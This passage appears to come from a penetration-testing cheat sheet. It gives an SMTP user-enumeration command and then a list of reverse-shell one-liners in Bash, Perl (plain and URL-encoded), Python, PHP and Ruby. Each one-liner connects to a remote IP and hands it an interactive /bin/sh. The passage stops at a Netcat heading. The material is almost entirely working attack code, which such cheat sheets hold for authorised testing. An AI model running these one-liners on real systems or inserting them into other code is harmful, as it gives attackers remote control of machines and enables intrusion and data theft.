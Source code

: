 ### SMTP

```bash
smtp-user-enum -U /usr/share/wordlists/names.txt -t $TARGET -m 150
```

## Gaining Access

### Reverse Shell One-Liners

#### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### Perl

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### URL-Encoded Perl: Linux

```bash
echo%20%27use%20Socket%3B%24i%3D%2210.11.0.245%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2fbin%2fsh%20-i%22%29%3B%7D%3B%27%20%3E%20%2ftmp%2fpew%20%26%26%20%2fusr%2fbin%2fperl%20%2ftmp%2fpew
```

#### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat without -e \#1

